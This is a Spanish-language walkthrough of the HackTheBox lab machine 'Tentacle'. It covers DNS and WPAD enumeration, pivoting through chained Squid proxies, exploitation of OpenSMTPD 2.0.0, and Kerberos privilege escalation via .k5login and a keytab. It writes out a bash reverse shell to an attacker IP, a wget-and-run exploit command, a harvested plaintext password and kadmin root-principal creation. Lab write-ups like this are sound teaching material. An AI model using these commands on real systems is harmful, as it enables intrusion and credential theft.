





# Skills

    - DNS Enumeration (dnsenum)
    - SQUID Proxy
    - WPAD Enumeration
    - OpenSMTPD v2.0.0 Exploit
    - SSH using Kerberos (gssapi)
    - Abusing .k5login file
    - Abusing krb5.keytab file

# Information Gathering

Primero el ping de siempre a la IP de la maquina victima:

```bash
ping -c 1 10.10.10.224 
PING 10.10.10.224 (10.10.10.224) 56(84) bytes of data.
64 bytes from 10.10.10.224: icmp_seq=1 ttl=63 time=133 ms

--- 10.10.10.224 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 133.304/133.304/133.304/0.000 ms
```

Iniciamos nuestro escaneo de puertos con nmap:

```bash
sudo nmap -sS -p- --open --min-rate 4000 -n -Pn 10.10.10.224 -oG nmap

PORT     STATE SERVICE
22/tcp   open  ssh
53/tcp   open  domain
88/tcp   open  kerberos-sec
3128/tcp open  squid-http
```

Copiamos los puertos en la clipboard para realizar escaneo de versiones:

```bash
ports="$(cat nmap | grep -oP '\d{1,5}/open' | awk '{print $1}' FS='/' | xargs | tr ' ' ',')"; ip_address="$(cat nmap | grep -oP '\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}' | sort -u | head -n 1)"; echo -e "\n[*] Extracting information...\n" > extractPorts.tmp; echo -e "\t[*] IP Address: $ip_address" >> extractPorts.tmp; echo -e "\t[*] Open ports: $ports\n" >> extractPorts.tmp; echo $ports | tr -d '\n' | xclip -sel clip; echo -e "[*] Ports copied to clipboard\n" >> extractPorts.tmp; cat extractPorts.tmp; rm extractPorts.tmp


*] Extracting information...

        [*] IP Address: 10.10.10.224
        [*] Open ports: 22,53,88,3128

[*] Ports copied to clipboard
```

```bash
nmap -p22,53,88,3128 -sVC 10.10.10.224 -Pn

PORT     STATE SERVICE      VERSION
22/tcp   open  ssh          OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   3072 8d:dd:18:10:e5:7b:b0:da:a3:fa:14:37:a7:52:7a:9c (RSA)
|   256 f6:a9:2e:57:f8:18:b6:f4:ee:03:41:27:1e:1f:93:99 (ECDSA)
|_  256 04:74:dd:68:79:f4:22:78:d8:ce:dd:8b:3e:8c:76:3b (ED25519)
53/tcp   open  domain       ISC BIND 9.11.20 (RedHat Enterprise Linux 8)
| dns-nsid: 
|_  bind.version: 9.11.20-RedHat-9.11.20-5.el8
88/tcp   open  kerberos-sec MIT Kerberos (server time: 2024-08-06 19:10:40Z)
3128/tcp open  http-proxy   Squid http proxy 4.11
|_http-title: ERROR: The requested URL could not be retrieved
|_http-server-header: squid/4.11
Service Info: Host: REALCORP.HTB; OS: Linux; CPE: cpe:/o:redhat:enterprise_linux:8
```

Los puertos abiertos que se muestran son ``22`` SSH, ``53`` DNS, ``88`` Kerberos y ``3128`` HTTP-Proxy. Nmap ya nos da el dominio de la máquina ``REALCORP.HTB``. SSH normalmente no es tan interesante, así que comencemos nuestra enumeración con DNS.

# Enumeration

## Port 53 - DNS

Para la enumeración de DNS voy a utilizar la herramienta dnsenum. Como ya conocemos el dominio, podemos utilizar esta herramienta para buscar nuevos subdominios.

```bash
dnsenum --threads 100 --dnsserver 10.10.10.224 -f /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt realcorp.htb
```



btenemos dos subdominios interesantes ``proxy y wpad`` Sin embargo, al observar la dirección, parecen ser direcciones internas que el servidor DNS filtró accidentalmente. Todavía podemos agregar estas entradas a nuestro archivo ``/etc/hosts``. Continuaremos nuestra enumeración mirando ``Squid`` (que se ejecuta en el puerto 3128).

# Port 3128 - HTTP-Proxy (Squid)



Obtenemos información valiosa de esta página de error:

    - Un nombre de usuario j.nakazawa (y dominio, si no lo supiéramos ya)
    - Hora actual en la máquina (Importante, si trabajamos con Kerberos)
    - Otro subdominio srv01.realcorp.htb
    - Versión calamar 4.11

Agreguemos todos los host a nuestro archivo /etc/hosts.

```bash
10.10.10.224    srv01.realcorp.htb realcorp.htb
10.197.243.31   wpad.realcorp.htb
10.197.243.77   ns.realcorp.htb proxy.realcorp.htb
```

A continuación, intentemos acceder a la red interna (10.197.243.0) mediante cadenas proxy. Para esto tenemos que editar nuestra configuración de proxychains:

```bash
sudo nano /etc/proxychains.conf
```



Agregamos el proxy externo a nuestra configuración de cadenas de proxy, por lo que todo el tráfico que pasa por el túnel del proxy pasará por el proxy Squid.

hagamos un mapeo del proxy externo al salir del túnel (lado LAN del proxy).

```bash
proxychains -q nmap -sT -Pn -n 127.0.0.1

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Nmap scan report for 127.0.0.1
Host is up (0.46s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
53/tcp   open  domain
88/tcp   open  kerberos-sec
464/tcp  open  kpasswd5
749/tcp  open  kerberos-adm
3128/tcp open  squid-http
```

Al escanear la interfaz interna del proxy externo, obtenemos dos puertos adicionales: 464 y 749.

## Accessing internal resources

Al acceder al proxy externamente, la configuración del proxy puede definir a qué recursos se puede acceder desde el exterior.

Intentemos ver si tenemos acceso al proxy interno, que según DNS es proxy.realcorp.htb (10.197.243.77)

```bash
proxychains -q nmap -sT -Pn -n -p 3128 10.197.243.77

PORT     STATE    SERVICE
3128/tcp filtered squid-http
```

No obtenemos acceso al servidor proxy interno desde el exterior. Intentemos enrutar a través de la interfaz interna del proxy.

Aquí hay un esquema simplificado para explicar lo que estoy tratando de lograr:



La línea negra nos muestra el acceso al proxy externamente desde nuestra máquina. La línea roja muestra que no es posible el acceso directo al proxy interno desde el exterior. La línea azul nos muestra haciendo proxy a través de la interfaz interna del proxy, antes de continuar con el proxy interno.

Para hacer esto, debemos agregar a nuestra ProxyList:

```bash
nano /etc/proxychains.conf 

http 10.10.10.224 3128 
http 127.0.0.1 3128 
```

Ahora deberíamos poder acceder al proxy interno (10.197.243.77).

```bash
proxychains -q nmap -sT -Pn -n -p 3128 10.197.243.77
Nmap scan report for 10.197.243.77
Host is up (0.16s latency).

PORT     STATE SERVICE
3128/tcp open  squid-http
```

agreguemos este proxy a nuestra cadena.

```bash
nano /etc/proxychains.conf 

http 10.10.10.224 3128 
http 127.0.0.1 3128 
http 10.197.243.77 3128
```

Ahora deberíamos poder acceder a la red interna.



## WPAD server

Ahora que tenemos acceso a la red interna, deberíamos poder escanear el servidor wpad en busca de puertos abiertos.

```bash
proxychains4 -q nmap -sT -Pn -n 10.197.243.31
Nmap scan report for 10.197.243.31
Host is up (0.22s latency).
Not shown: 993 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
53/tcp   open  domain
80/tcp   open  http
88/tcp   open  kerberos-sec
464/tcp  open  kpasswd5
749/tcp  open  kerberos-adm
3128/tcp open  squid-http
```

Intentemos acceder al sitio web.

```bash
proxychains firefox wpad.realcorp.htb
```

al conectarnos a wpad.realcorp.htb, obtenemos un 403 Prohibido.
Investigacion de WPAD

Al investigar cómo funciona WPAD, encontré esta página web que dice lo siguiente:

https://book.hacktricks.xyz/generic-methodologies-and-resources/pentesting-network/spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks

“Muchos navegadores utilizan el descubrimiento automático de proxy web (WPAD) para cargar la configuración del proxy desde la red. Un servidor WPAD proporciona configuraciones de proxy del cliente a través de una URL particular (por ejemplo, http://wpad.example.org/wpad.dat)…”

Intentemos obtener este archivo wpad.dat del servidor.

```bash
proxychains -q curl wpad.realcorp.htb/wpad.dat
function FindProxyForURL(url, host) {
    if (dnsDomainIs(host, "realcorp.htb"))
        return "DIRECT";
    if (isInNet(dnsResolve(host), "10.197.243.0", "255.255.255.0"))
        return "DIRECT"; 
    if (isInNet(dnsResolve(host), "10.241.251.0", "255.255.255.0"))
        return "DIRECT"; 
 
    return "PROXY proxy.realcorp.htb:3128";
}
```

Al observar el archivo wpad.dat, podemos ver que hay otra subred previamente desconocida 10.241.251.0/24.

Podemos usar nslookup para hacerlo.

```bash
man nslookup
DESCRIPTION
	Nslookup is a program to query Internet domain name servers.  Nslookup has two modes: interactive and
    non-interactive. [...] Non-interactive mode is used to print just the name and requested information for a host or domain.
[...]
RETURN VALUES
    nslookup returns with an exit status of 1 if any query failed, and 0 otherwise.
```

Podemos usar la siguiente sintaxis para verificar si existe un host:

```bash
nslookup 10.241.251.X 10.10.10.224
```

Si el código de salida no es cero, el host no existe.

Podemos implementar esto con un script bash:

```bash
#!/bin/bash
DNS_SERVER="10.10.10.224"
IP_RANGE="10.241.251"

for HOST in $(seq 1 254);
 do
   IP="$IP_RANGE.$HOST"
   nslookup "$IP" $DNS_SERVER 1>&2>/dev/null # Try to resolve IP to a hostname
   if [[ $? -eq 0 ]]; # If nslookup exited with 0, the query was successful = host found
    then
       echo "Host ($IP) found via DNS:"
       nslookup "$IP" $DNS_SERVER # Print info
    fi
 done
```

Ejecutemos el script y veamos si se puede encontrar algún host.

```bash
./dns-scan.sh 

Host (10.241.251.113) found via DNS:
113.251.241.10.in-addr.arpa     name = srvpod01.realcorp.htb.
```

Encontramos con éxito un host: 10.241.251.113 (srvpod01.realcorp.htb). Usemos nmap para encontrar cualquier puerto abierto.

```bash
proxychains -q nmap -sT -Pn -n -v 10.241.251.113

Discovered open port 25/tcp on 10.241.251.113
```

Parece que el puerto 25 (SMTP) está abierto en el host.

```bash
proxychains -q nmap -sT -Pn -n -sC -sV -p 25 10.241.251.113 
Nmap scan report for 10.241.251.113
Host is up (0.19s latency).

PORT   STATE SERVICE VERSION
25/tcp open  smtp    OpenSMTPD
| smtp-commands: smtp.realcorp.htb Hello nmap.scanme.org [10.241.251.1], pleased to meet you, 8BITMIME, ENHANCEDSTATUSCODES, SIZE 36700160, DSN, HELP, 
|_ 2.0.0 This is OpenSMTPD 2.0.0 To report bugs in the implementation, please contact bugs@openbsd.org 2.0.0 with full details 2.0.0 End of HELP info
```

Parece que el nombre de host del servidor es smtp.realcorp.htb y está ejecutando OpenSMTPD (Versión 2.0.0). Agreguemos el host a nuestro archivo /etc/hosts:

```bash
sudo nano /etc/hosts
10.10.10.224    srv01.realcorp.htb
10.197.243.31   wpad.realcorp.htb
10.197.243.77   ns.realcorp.htb proxy.realcorp.htb
10.241.251.113  smtp.realcorp.htb
```

busquemos un exploit para OpenSMTPD v2.0.0.

# Explotation

Buscando en google encontramos un exploit: https://www.exploit-db.com/exploits/47984

Vamos a enviarnos una revshell:

```bash
nc -nlvp 1234
```

```bash
echo 'bash -c "bash -i >& /dev/tcp/10.10.14.11/1234 0>&1"' > /var/www/html/index.html
```

```bash
sudo service apache2 start
```

```bash
proxychains python3 47984.py 10.241.251.113 25 'wget 10.10.14.11;bash index.html'
```
Ya tenenos la shell.

# Lateral Movement

Comencemos enumerando todos los usuarios de la máquina:

```bash
root@smtp:/home# ls -alh
total 0
drwxr-xr-x. 1 root       root       24 Dec  8 10:56 .
drwxr-xr-x. 1 root       root       96 Dec  8 18:50 ..
drwxr-xr-x. 1 j.nakazawa j.nakazawa 59 Dec  9 12:31 j.nakazawa
```

Parece que el único usuario de este sistema es j.nakazawa. Echemos un vistazo a su carpeta de inicio.

```bash
root@smtp:/home/j.nakazawa# ls -alh
total 16K
drwxr-xr-x. 1 j.nakazawa j.nakazawa   59 Dec  9 12:31 .
drwxr-xr-x. 1 root       root         24 Dec  8 10:56 ..
lrwxrwxrwx. 1 root       root          9 Dec  9 12:31 .bash_history -> /dev/null
-rw-r--r--. 1 j.nakazawa j.nakazawa  220 Apr 18  2019 .bash_logout
-rw-r--r--. 1 j.nakazawa j.nakazawa 3.5K Apr 18  2019 .bashrc
-rw-------. 1 j.nakazawa j.nakazawa  476 Dec  8 19:12 .msmtprc
-rw-r--r--. 1 j.nakazawa j.nakazawa  807 Apr 18  2019 .profile
lrwxrwxrwx. 1 root       root          9 Dec  9 12:31 .viminfo -> /dev/null
```

Detectamos un archivo interesante en la carpeta de inicio del usuario: .msmtprc. Este es un archivo de configuración para usar el cliente SMTP. Comprobemos posibles contraseñas.

```bash
root@smtp:/home/j.nakazawa# cat .msmtprc
# Set default values for all following accounts.
defaults
auth           on
tls            on
tls_trust_file /etc/ssl/certs/ca-certificates.crt
logfile        /dev/null

# RealCorp Mail
account        realcorp
host           127.0.0.1
port           587
from           j.nakazawa@realcorp.htb
user           j.nakazawa
password       sJB}RM>6Z~64_
tls_fingerprint C9:6A:B9:F6:0A:D4:9C:2B:B9:F6:44:1F:30:B8:5E:5A:D8:0D:A5:60

# Set a default account
account default : realcorp
```

Obtenemos las credenciales para el usuario j.nakazawa:sJB}RM6Z~64_

Intentemos iniciar sesión en el servidor principal a través de SSH.

```bash
ssh j.nakazawa@10.10.10.224
j.nakazawa@10.10.10.224 password: sJB}RM>6Z~64_
Permission denied, please try again.
```

Parece que esto no funciona. Sin embargo, el mensaje de error me llama la atención. Nunca antes había visto gssapi-keyex ni gssapi-with-mic. Empecemos a investigar.

## Investigando la autenticación SSH usando gssapi

Después de buscar esto por un tiempo, encontré esta respuesta en serverfault: https://serverfault.com/questions/75362/what-is-gssapi-with-mic/1041704#1041704

que habla de que está relacionada con Kerberos. Esto tendría sentido ya que hay varios puertos abiertos relacionados con Kerberos. Continuaremos nuestra investigación para que SSH utilice Kerberos.

Finalmente, encontré este documento de AWS: https://docs.aws.amazon.com/en_us/emr/latest/ManagementGuide/emr-kerberos-connect-ssh.html

que parece describir bastante bien nuestro escenario. Esto indica que tenemos que configurar el archivo ``/etc/krb5.conf``, ejecutar kinit y luego usar ssh -K.

## Configuración de la autenticación Kerberos

Ok, comencemos configurando ``/etc/krb5.conf``, para esto primero tenemos que instalar ``krb5-user`` (apt install krb5-user).

El archivo ``/etc/krb5.conf`` debería tener el siguiente aspecto:

```bash
cat /etc/krb5.conf
[libdefaults]
        default_realm = REALCORP.HTB # Change default realm
        
        [...]

[realms]
		# Add realm
        REALCORP.HTB = {
                kdc = 10.10.10.224
        }
```

Configuramos la hora, con la hora de la maquina victima:

```bash
ntpdate 10.10.10.224
```

Ahora deberíamos ejecutar kinit con nuestro usuario.

```bash
kinit j.nakazawa
Password for j.nakazawa@REALCORP.HTB: sJB}RM>6Z~64_
```

Si tenemos éxito, deberíamos ver un ticket en el caché, si ejecutamos klist.

```bash
klist
Ticket cache: FILE:/tmp/krb5cc_0
Default principal: j.nakazawa@REALCORP.HTB

Valid starting       Expires              Service principal
02/23/2021 20:47:48  02/24/2021 20:41:46  krbtgt/REALCORP.HTB@REALCORP.HTB
```

obtenemos un ticket válido que debería permitirnos ingresar mediante SSH a la máquina.

## SSH using Kerberos

```bash
ssh  j.nakazawa@REALCORP.HTB
```

# Lateral Movement #2

Veamos qué usuarios están en el sistema.

```bash
[j.nakazawa@srv01 ~]$ cat /etc/passwd | grep "/bin/.*sh"
root:x:0:0:root:/root:/bin/bash
j.nakazawa:x:1000:1000::/home/j.nakazawa:/bin/bash
admin:x:1011:1011::/home/admin:/bin/bash
```

El administrador parece un objetivo interesante… Intentemos encontrar una manera de acceder al administrador.

Al observar los cronjobs, parece que el usuario administrador ejecuta un script cada minuto:

```bash
[j.nakazawa@srv01 ~]$ cat /etc/crontab 
SHELL=/bin/bash
PATH=/sbin:/bin:/usr/sbin:/usr/bin
MAILTO=root

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name  command to be executed
* * * * * admin /usr/local/bin/log_backup.sh
```

Echemos un vistazo al script log_backup

```bash
[j.nakazawa@srv01 ~]$ cat /usr/local/bin/log_backup.sh
#!/bin/bash

/usr/bin/rsync -avz --no-perms --no-owner --no-group /var/log/squid/ /home/admin/
cd /home/admin
/usr/bin/tar czf squid_logs.tar.gz.`/usr/bin/date +%F-%H%M%S` access.log cache.log
/usr/bin/rm -f access.log cache.log
```

Parece que el usuario administrador copia todo desde la carpeta ``/var/log/squid`` a su carpeta de inicio. Luego archiva los dos archivos de registro y los elimina. Como todo se copia, pero solo se eliminan los dos archivos especificados, potencialmente tenemos escritura arbitraria en la carpeta ``/home/admin``.

Confirmemos esto comprobando si tenemos acceso de escritura a la carpeta /var/log/squid.

```bash
[j.nakazawa@srv01 ~]$ ls -alh /var/log/
total 1.4M
drwxr-xr-x. 12 root   root   4.0K Feb 23 19:52 .
drwxr-xr-x. 22 root   root   4.0K Dec 24 06:24 ..
drwx-wx---.  2 admin  squid    41 Dec 24 06:36 squid
```

Parece que solo el usuario administrador puede leer la carpeta, sin embargo, el grupo squid puede escribir en la carpeta. Revisemos nuestros grupos.

```bash
[j.nakazawa@srv01 ~]$ id
uid=1000(j.nakazawa) gid=1000(j.nakazawa) groups=1000(j.nakazawa),23(squid),100(users)
```

Parece que somos parte del grupo de squid, lo que confirma nuestro vector de ataque. La única pregunta que queda es qué queremos escribir en la carpeta. Normalmente, escribiría mi clave ssh en .ssh/authorized_keys. Sin embargo, la autenticación de clave pública está deshabilitada. Mi investigación de Kerberos con SSH reveló que hay una manera de permitir que otros usuarios inicien sesión en su cuenta utilizando un archivo .k5login como se indica en este artículo: https://www.oreilly.com/library/view/linux-security-cookbook/0596003919/ch04s14.html

“Si desea permitir que otra persona inicie sesión en su cuenta a través de Kerberos, puede agregar su principal de Kerberos a su archivo ~/.k5login. ¡Asegúrate de agregar también el tuyo propio si creas este archivo, ya que de lo contrario no podrás acceder a tu propia cuenta!
Privesc al administrador: Explotación del script log_backup

tenemos que crear nuestro archivo en ``/var/log/squid/.k5login`` y esperar hasta que se copie en la carpeta del administrador. Entonces deberíamos poder utilizar SSH como administrador cuando la tarean cron se ejecute.

Te recomiendo que lo hagas varias veces, ya que a la primera no va:

```bash
[j.nakazawa@srv01 log]$ echo "j.nakazawa@REALCORP.HTB" > /var/log/squid/.k5login 
[j.nakazawa@srv01 log]$ echo "j.nakazawa@REALCORP.HTB" > /var/log/squid/.k5login 
[j.nakazawa@srv01 log]$ echo "j.nakazawa@REALCORP.HTB" > /var/log/squid/.k5login 
[j.nakazawa@srv01 log]$ echo "j.nakazawa@REALCORP.HTB" > /var/log/squid/.k5login 
[j.nakazawa@srv01 log]$ echo "j.nakazawa@REALCORP.HTB" > /var/log/squid/.k5login 
[j.nakazawa@srv01 log]$ echo "j.nakazawa@REALCORP.HTB" > /var/log/squid/.k5login 
```

Luego nos conectamos por ssh:

```bash
ssh admin@10.10.10.224   
Activate the web console with: systemctl enable --now cockpit.socket

Last login: Thu Aug  8 16:00:02 2024
[admin@srv01 ~]$
```

Obtuvimos con éxito un shell como administrador y ahora podemos continuar nuestra búsqueda de un vector privesc para root.

Ejecutemos un script de enumeración en la máquina, voy a usar LinPeas.sh: https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh

Cuando miramos el resultado del script, nos damos cuenta de dos archivos que pertenecen a la raíz y generalmente no son legibles, pero sí pueden ser leídos por el administrador.

```bash
/etc/squid/squid.conf
/etc/krb5.keytab
```

El Archivo /etc/krb5.keytab solo es legible por root y admin.

Echemos un vistazo mas de cerca al expediente.

```bash
[admin@srv01 ~]$ file /etc/krb5.keytab
krb5.keytab: Kerberos Keytab file, realm=REALCORP.HTB, principal=host/srv01.realcorp.htb, type=1, date=Tue Dec  8 22:15:30 2020, kvno=2
```

Investiguemos qué hace este archivo y cómo abrirlo.

Segun la doc de MIT Kerberos, la tabla de claves es un archivo que almacena claves para los principales.

```bash
[admin@srv01 etc]$ klist -k /etc/krb5.keytab 
Keytab name: FILE:/etc/krb5.keytab
KVNO Principal
---- --------------------------------------------------------------------------
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
```

# Privilege escalation

Parece que nuestro usuario también es un kadmin. Esto nos permite agregar principals a la tabla de claves. Podemos explotar esto agregando el usuario root a la tabla de claves con nuestra contraseña especificada.
Agregando root a la lista de principals keytab

Agregamos el usuario root con la password

[admin@srv01 etc]$ kadmin -k -t /etc/krb5.keytab -p kadmin/admin@REALCORP.HTB -q "add_principal -pw test root@REALCORP.HTB"
Couldn't open log file /var/log/kadmind.log: Permission denied
Authenticating as principal kadmin/admin@REALCORP.HTB with keytab /etc/krb5.keytab.
No policy specified for root@REALCORP.HTB; defaulting to no policy
Principal "root@REALCORP.HTB" created.

Ahora podemos usar ksu (ksu - Kerberized super-user) para su a root. (El archivo Keytab se restablece periódicamente, por lo que debemos ser rápidos).

```bash
[admin@srv01 etc]$ ksu
WARNING: Your password may be exposed if you enter it here and are logged 
         in remotely using an unsecure (non-encrypted) channel. 
Kerberos password for root@REALCORP.HTB: : 
Authenticated root@REALCORP.HTB
Account root: authorization for root@REALCORP.HTB successful
Changing uid to root (0)
[root@srv01 etc]#
```

Iniciamos Sesion con exito como root.